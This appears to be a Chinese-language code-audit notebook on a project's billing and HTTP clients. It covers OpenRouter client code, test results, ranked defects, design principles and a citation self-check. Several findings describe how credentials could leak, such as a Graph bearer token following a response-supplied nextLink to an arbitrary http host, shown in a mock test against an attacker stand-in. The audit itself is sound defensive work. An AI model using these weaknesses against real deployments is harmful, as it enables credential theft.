        marker.write_text(datetime.datetime.now(datetime.UTC).isoformat() + "\n", encoding="utf-8")
        return notice
    except Exception:
        return notice
```

*异常路径 `return notice`(而不是 `None`):marker 写不进去时宁可多提示一次,
也不要让一个"会花钱"的提示因为磁盘问题而消失。**fail 的方向再一次被显式选定。***

### 5.3 OpenRouter(`tools/openrouter_client.py`,47 行)

这是三个客户端里最薄的一个:它自己不做鉴权、不拼 URL、不重试,全部委托给 `auxiliary_client`。

`tools/openrouter_client.py:14-28 @ 863e313`

```
def get_async_client():
    """Return a shared async OpenAI-compatible client for OpenRouter.

    The client is created lazily on first call and reused thereafter.
    Uses the centralized provider router for auth and client construction.
    Raises ValueError if OPENROUTER_API_KEY is not set.
    """
    global _client
    if _client is None:
        from agent.auxiliary_client import resolve_provider_client
        client, _model = resolve_provider_client("openrouter", async_mode=True)
        if client is None:
            raise ValueError("OPENROUTER_API_KEY environment variable not set")
        _client = client
    return _client
```

base URL 追到底是一个硬常量:

`hermes_constants.py:1366-1367 @ 863e313`

```
OPENROUTER_BASE_URL = "https://openrouter.ai/api/v1"
OPENROUTER_MODELS_URL = f"{OPENROUTER_BASE_URL}/models"
```

`agent/auxiliary_client.py:2508-2514 @ 863e313`

```
    or_key = explicit_api_key or _scoped_key_env("OPENROUTER_API_KEY")
    if not or_key:
        _mark_provider_unhealthy("openrouter", ttl=60)
        return None, None
    logger.debug("Auxiliary client: OpenRouter")
    return _create_openai_client(api_key=or_key, base_url=OPENROUTER_BASE_URL,
                   default_headers=build_or_headers()), or_model
```

**主机校验问题:不存在——因为它不接受任何覆盖。** 这反而是三个客户端里最安全的一个。

#### 5.3.1 ◇:`OPENROUTER_BASE_URL` 在这条路上被忽略,文档说它是通用覆盖

文档:

`website/docs/reference/environment-variables.md:16 @ 863e313`

> | `OPENROUTER_BASE_URL` | Override the OpenRouter-compatible base URL |

而 `_try_openrouter` 只在**凭据池命中**时才让环境变量生效(经 `credential_pool` 的
`base_url_env_var` 机制),纯 `OPENROUTER_API_KEY` 路径用的是硬常量:

`agent/auxiliary_client.py:2496-2501 @ 863e313`

```
    pool_present, entry = _select_pool_entry("openrouter")
    if pool_present:
        or_key = explicit_api_key or _pool_runtime_api_key(entry)
        if or_key:
            base_url = _pool_runtime_base_url(entry, OPENROUTER_BASE_URL) or OPENROUTER_BASE_URL
            logger.debug("Auxiliary client: OpenRouter via pool")
```

所以"设了 `OPENROUTER_BASE_URL` 会不会生效"取决于**用户是否用了多账号凭据池**,
而文档没有区分。评级:◇(代码行为文档未述),不是 ▲——文档那句话在池路径上为真。

**缓存的副作用**:模块级 `_client` 单例一旦建立就不再重建,
所以 `/reload`(重载 `.env`)之后 OpenRouter 工具仍然用旧 key。这是"简单懒加载单例"的常规代价。

---

## 6. 测试作为行为规格

### 6.1 环境

```console
venv 包数(pip list 去表头)= 87
site-packages/*.dist-info  = 87
python 3.11.15 · httpx 0.28.1
容器:root(id -u = 0)、无 IPv6、离线无 models.dev 目录、SQLite 3.45.1
```

### 6.2 读数:23 个文件,198 passed,0 failed

跑法一律 `HERMES_DISABLE_LAZY_INSTALLS=1 HERMES_PYTHON=/home/user/hermes-venv/bin/python bash scripts/run_tests.sh <files>`。

| 批次 | 文件 | passed | failed |
|---|---|---|---|
| 额度 | `test_credits_tracker` / `test_credits_cold_start` / `test_credits_policy` / `test_credits_view` / `test_credits_fixture_snapshot` | 93 | 0 |
| 计费视图 | `test_billing_view` / `test_subscription_view` / `test_billing_usage` / `test_billing_links` / `test_anthropic_billing_guidance` / `test_account_usage` | 57 | 0 |
| HTTP 客户端 + 归账 | `test_microsoft_graph_client` / `test_microsoft_graph_auth` / `test_xai_http_credentials` / `test_xai_http_storage` / `test_aux_usage_accounting` | 22 | 0 |
| 下游消费者 | `test_nous_credits_gauge` / `test_nous_credits_snapshot` / `test_credits_notices_toggle` / `test_notice_spine` / `test_notice_rendering` / `test_billing_cli` / `test_subscription_cli` | 26 | 0 |
| **合计** | **23** | **198** | **0** |

**零失败**,所以没有需要区分"代码缺陷 / 用例脆性 / 容器限制"的条目。
(注:本片的模块全部是纯数据变换 + 依赖注入的 transport,不碰网络、不碰 IPv6、不碰 SQLite 版本差异,
所以已知的 6 条容器必挂用例一条都不在本片范围内。)

### 6.3 用例覆盖的形状——三个明显的洞

1. **`test_credits_tracker.py` 51 个用例**,是本片密度最高的一份,把 header 解析的每一条拒绝规则
   都钉住了;`test_credits_fixture_snapshot.py` 更做了"夹具状态 ≡ 等价 header 解析结果"的**差分测试**
   (这正是 `credits_tracker.py:727-731` 那段注释承诺的东西)。这份文件可以当成"如何测一个解析器"的范本。
2. **`test_microsoft_graph_client.py` 只有 3 个用例**,而 5.1.4 / 5.1.5 两条 ■ 所在的分页与
   `Retry-After` 上限**都没有被覆盖**(分页 0 用例;`Retry-After` 有用例但只测 3 秒)。
3. **`test_billing_links.py` 只有 3 个用例**,且文件里留着几段明显被删空的连续空行——
   `_resolve_provider_link` 的"按主机回退"分支和"未知 provider 返回 None"这两条纪律**没有测试**。

---

## 7. 发现清单(按严重性)

### ■ 代码缺陷

| # | 锚点 | 现象 | 实跑复核 |
|---|---|---|---|
| ■-1 | `tools/microsoft_graph_client.py:139` + `:333` | 分页跟随响应体给出的下一页地址,`_resolve_url` 对任意绝对 URL(含明文 http)原样放行,Graph bearer 随请求发出;已用 MockTransport 端到端实测 bearer 落到 `http://attacker.example`;生产有 4 处调用,测试 0 覆盖 | **建议实跑** |
| ■-2 | `agent/billing_usage.py:270` | `HERMES_DEV_CREDITS_FIXTURE` 的第二个消费者没有 `HERMES_DEV_CREDITS` 主开关,绕过了 `credits_tracker.py:712` 自称的 "hard prod-leak guard",真实账号上会显示伪造的 `$0.00 / depleted` | **建议实跑** |
| ■-3 | `agent/account_usage.py:173` vs `agent/billing_usage.py:157` | 同一个 `/usage` 的主路径与 fallback 路径读两个不同的 wire 字段算"本月已用",实测同一份账号数据给出 90% 与 10% 两个相反结论 | |
| ■-4 | `tools/microsoft_graph_client.py:363` | 服务端 `Retry-After` 直接当睡眠时长且**不封顶**(实测 86400 秒);本地退避封顶 8 秒;`hermes_cli/auth.py:8112` 对同一件事做了 `min(..., 60)` 钳位 | |
| ■-5 | `tools/microsoft_graph_auth.py:43` | `MSGRAPH_AUTHORITY_URL` 无 scheme/主机校验,`client_secret` 可被 POST 到明文 http 的任意主机;同仓库 xAI 对同型覆盖做了校验(`hermes_cli/auth.py:4758`) | |
| ■-6 | `agent/conversation_loop.py:5484` | 注释断言 "every surface renders the same link",实际 Anthropic 的文本面给 `claude.ai/settings/usage`、结构面给 `console.anthropic.com/settings/billing`,同一轮同时发出 | |
| ■-7 | `tools/xai_http.py:324` | API-key 路径的 `XAI_BASE_URL` 不做校验(OAuth 路径做);按 `hermes_cli/auth.py:4735` 自陈的威胁模型(篡改的 `.env`),两条路径暴露面相同 | |
| ■-8 | `agent/credits_tracker.py:837` | `_bg_seed` 的幂等检查是 TOCTOU:检查与写入之间落地的真实 header 会被较旧的 Portal 快照覆盖;`_credits_latch` 被两个线程无锁共享 | |

### ▲ 文档与代码矛盾

| # | 锚点 | 现象 |
|---|---|---|
| ▲-1 | `website/docs/reference/slash-commands.md:129` | 「`/subscription` … **CLI only.** View your Nous plan and change it in the browser.」两条断言均被证伪:TUI 注册表里有它(`ui-tui/src/app/slash/registry.ts:15`);CLI 与 TUI 都在终端内提交变更(`hermes_cli/cli_billing_mixin.py:596`),浏览器深链只是 3DS 降级路径 |

### ◇ 代码有、文档无

| # | 锚点 | 现象 |
|---|---|---|
| ◇-1 | `tools/xai_http.py:301` | `HERMES_XAI_BASE_URL` 只在 OAuth 路径生效、API-key 路径静默忽略;该变量在 `website/docs/reference/environment-variables.md` 里完全没有条目 |
| ◇-2 | `agent/auxiliary_client.py:2500` vs `:2513` | 文档说 `OPENROUTER_BASE_URL` 是通用覆盖,实际只在凭据池路径生效,纯 `OPENROUTER_API_KEY` 路径用硬常量 |
| ◇-3 | `agent/billing_view.py:401` 与 `agent/subscription_view.py:456` | `HERMES_DEV_BILLING_FIXTURE` / `HERMES_DEV_SUBSCRIPTION_FIXTURE` 两个开发夹具变量文档零覆盖(搜索面:`grep -rn "HERMES_DEV_BILLING_FIXTURE\|HERMES_DEV_SUBSCRIPTION_FIXTURE" website/docs/ README.md AGENTS.md` → 0 命中) |

### ◎ 文档成立但显著保守

本片未发现 ◎ 条目。

### 移交项(附锚点 + 一句话现象)

| 编号 | 锚点文件 | 一句话现象 |
|---|---|---|
| H-R9C-1 | `hermes_cli/nous_billing.py:179` | `resolve_portal_base_url` 读环境变量与存储的 `portal_base_url` 时**不查** `_NOUS_PORTAL_ALLOWED_HOSTS`,而其返回值在 `nous_billing.py:399-402` 被用作 `Authorization: Bearer` 的目的地;同仓库 `hermes_cli/auth.py:5900` 读同一个存储字段时是查清单的。该文件不在 R9C-F 片范围,未定案 |
| H-R9C-2 | `agent/billing_links.py:53` 与 `hermes_cli/doctor.py:2162` | `billing_links` 自称 provider→充值页的 "single source of truth",但 `doctor.py:2162` 与 `agent/conversation_loop.py:5204` 各自硬编码了同一个 OpenRouter 充值 URL;这两处属"401 鉴权失败"分类而非"billing"分类,是否算同一份知识的副本需要单独判定 |
| H-R9C-3 | `agent/credits_tracker.py:300` | latch 键名 `seen_below_90` 与其实际语义(门槛是 `CREDITS_USAGE_BANDS[0][0]` = 0.50)已经不符;改档位表就会让键名进一步失真。低危命名债,记录备查 |
| H-R9C-4 | `run_agent.py:3977` | `get_credits_spent_micros` = `session_start - current_remaining`;会话中途充值会让 `remaining` 上升,该值变**负**。该文件不在本片范围,未取证其显示路径是否有钳位 |

---

## 8. 可迁移的设计原则(造自己的 harness 时抄什么)

1. **余额搭响应头的便车。** 不要为"我还剩多少钱"单开一个轮询。让网关在每个推理响应里带回余额,
   成本为零且与扣费天然同步。为它设计一个带版本号的头族,版本不认识就静默忽略 + 警告一次。
2. **钱只用整数。** micros(或 cents)整数贯穿全程;服务端给的格式化字符串**原样透传,永不回解析**。
   `int(str(x))` 而不是 `int(float(x))`。
3. **"耗尽"是服务端的一个布尔位,不是"余额==0"的推论。** 余额为 0 但访问仍然有效是常态(续订待生效)。
4. **报警绑穿越,不绑取值。** 会话开局观察到的高水位是**状态**,不是**事件**。
   加一道"必须先观察到低于阈值"的门,并且让门本身可以被冷启动播种显式预置——
   然后**逐条决定**哪些门该被预置(用量档位该,"赠额花完"不该)。
5. **fail 的方向必须显式选,并把理由写进注释。** 本片至少四处做了这件事:
   免费模型检测 fail-open(误报可恢复,漏报会掩盖真实计费阻断)、
   套餐变更预览 fail-closed(会花钱)、xAI 存储 TTL 无法解析时选"最省钱"的默认、
   xAI 计费提示的 marker 写失败时宁可重复提示。
6. **必需字段坏 → 整体作废;可选派生字段坏 → 降级保留主干。** 别把"分母缺失"和"余额损坏"同等对待。
7. **客户端复制服务端规则时,把它声明为副本。** 写清楚为什么值得复制(即时反馈)、
   谁是权威(服务端仍然强制执行)。本片里 `validate_charge_amount` 做到了,三份 `% used` 没做到。
8. **策略是纯函数,渲染是驱动的事。** `evaluate_credits_notices(state, latch) -> (to_show, to_clear)`
   不 import agent、不做 I/O;每个界面自己决定怎么画。并且**先清除、后展示**——
   在"最新覆盖"的插槽里,顺序决定了最后留下哪一条。
9. **latch 的 schema 由策略独占一个工厂函数。** 不要让每个生产者手写字面量 dict。
10. **凭据只能发往受校验的主机。** 三条判据缺一不可:scheme 必须是 https;
    主机必须过允许清单/后缀匹配(用 `hostname` 解析,**不用子串包含**);
    **来自网络响应体的 URL(分页 `nextLink`、重定向目标)与配置来的 URL 同等对待**。
11. **服务端给的等待时长必须封顶。** `Retry-After` 是外部输入。
    "优先用它"和"给它封顶"是同一条规则的两半,写在同一行里。
12. **开发夹具要有一个主开关,而且所有消费者共用同一个门。** 一个只有一半消费者遵守的防泄漏门,
    等于没有门——而且比没有更糟,因为文档里写着它存在。
13. **可用性探测与凭据解析必须是两个函数。** 前者承诺"零磁盘锁、零网络",后者才做真事。
14. **辅助/后台调用的用量按响应里的 model 记账,不按请求。** provider 回退链会让两者不同。

---

## 9. 未取证 / 推定的部分(如实列出)

1. **■-3 的"真实会不会漂"未取证。** 我证明了 `subscription.credits_remaining` 与
   `paid_service_access_info.subscription_credits_remaining` 是 wire 上的两个独立字段、
   两个消费者读的是不同的那一个、并用构造数据演示了相反结论。
   **我没有真实 Portal 账号,无法确认服务端是否总是让这两个字段取同一个值。**
   若总是相同,这条是潜伏缺陷而非在线缺陷——但"两个字段必须同步"这条隐含契约仍然无人保护。
2. **■-1 的攻击面前提未取证。** 我证明了"若 `@odata.nextLink` 指向任意主机,bearer 就跟着走"。
   我**没有**证明 Microsoft Graph 在现实中会返回一个异常主机的 `nextLink`。
   这条的现实前提是 MITM、被攻陷的中间代理,或 `base_url` 被改指向恶意上游。
   评级为高,依据是"凭据的目的地不该由网络响应决定"这条纪律本身,不是依据已知的在野利用。
3. **■-5 / ■-7 的严重性依赖威胁模型。** 两者的输入都是"用户自己设的环境变量/dotenv"。
   我把它们记为 ■,依据是**本仓库自己在 `hermes_cli/auth.py:4735` 写下的威胁模型**
   (篡改的 `.env` / 恶意 shell init)——按那个模型,这两处与已被修的 xAI OAuth 路径同型。
   若采用"env 一律可信"的模型,这两条应降级为 ◇。
4. **■-8 的竞态未构造出实际复现。** 我用静态搜索证明了无锁 + TOCTOU,没有写压测去实际触发。
   考虑到 CPython 的 GIL 让单次 dict/set 操作原子,最坏后果是一条通知重复或丢失,我判低危。
5. **▲-1 的旁证 `/copy` 未逐条取证。** 我只确认了 `ui-tui/src/app/slash/commands/core.ts:385`
   存在一个 `name: 'copy'`,没有确认它与 CLI 的 `/copy` 是同一功能。旁证不入账。
6. **`_absolutize_portal_url` 的行为未单独取证。** 我读了它的实现
   (`hermes_cli/nous_billing.py:189-203`,`urljoin`),没有跑用例验证"已经绝对的 URL 原样返回"。
   该断言来自它自己的 docstring。
7. **桌面端(`apps/desktop`)与 TUI 对 `billing_block` 的渲染只做了 grep 级确认**
   (`apps/desktop/src/store/billing-block.test.ts`、`ui-tui/src/lib/billingDialog.test.ts` 存在),
   没有读那两侧的实现。■-6 的"点按钮和读文字去两个地方"是基于 `billing_url` 字段被用于打开链接
   这一 grep 结论,未逐行验证。
8. **未跑任何真实计费端点**,未配置任何凭据。所有 HTTP 验证均通过 `httpx.MockTransport`
   或纯函数调用完成。

---

## 10. 自校验读数

基线在本轮全程未被修改:

```verify
cd /home/user/hermes-agent && git rev-parse HEAD && git status --porcelain && echo "CLEAN(空输出即干净)"
```

引用校验:

```verify
cd /home/user/hermes-study && python3 scripts/verify_citations.py /home/user/hermes-agent notes/r9c-raw-billing-and-http-clients.md
```

实际输出:

```console
citations=97  OK=85  UNCHECKED=12
可校验比例 OK/97 = 87.6%
table_anchors=23  UNCHECKED=23   (表格行内锚点,单独计数;DRIFT/OUT-OF-RANGE **阻断**,见 H-R9A-h)
OK: every code-block-backed citation matches the baseline
```

```text
退出码 = 0
MISMATCH = 0   BLOCK-DRIFT = 0   TABLE-DRIFT = 0   TABLE-OUT-OF-RANGE = 0   MISSING-FILE = 0
可校验比例 87.6%(下限 70%,达标)
未触发「疑似锚点排版不合规」提示
```

首轮跑出 9 处 MISMATCH,**全部是本底稿自己的行号写错**(±1 到 ±3 的抄写偏移,
集中在多行 docstring 的起始行),基线代码无一处对不上。**未使用 `--fix`**,逐条回查
基线原始行号后手工改正,再裸跑复核。这 9 处是 CLAUDE.md 里 BLOCK-DRIFT 那条规矩
所描述形态的实例:摘录内容全对,锚点却指向邻近的另一行——单看正文完全看不出来。

测试环境(用例数是环境的函数,必须一并记):

```console
venv 包数 = 87   (pip list 去两行表头)
site-packages/*.dist-info = 87
python 3.11.15 · httpx 0.28.1
23 个测试文件 · 198 passed · 0 failed
```
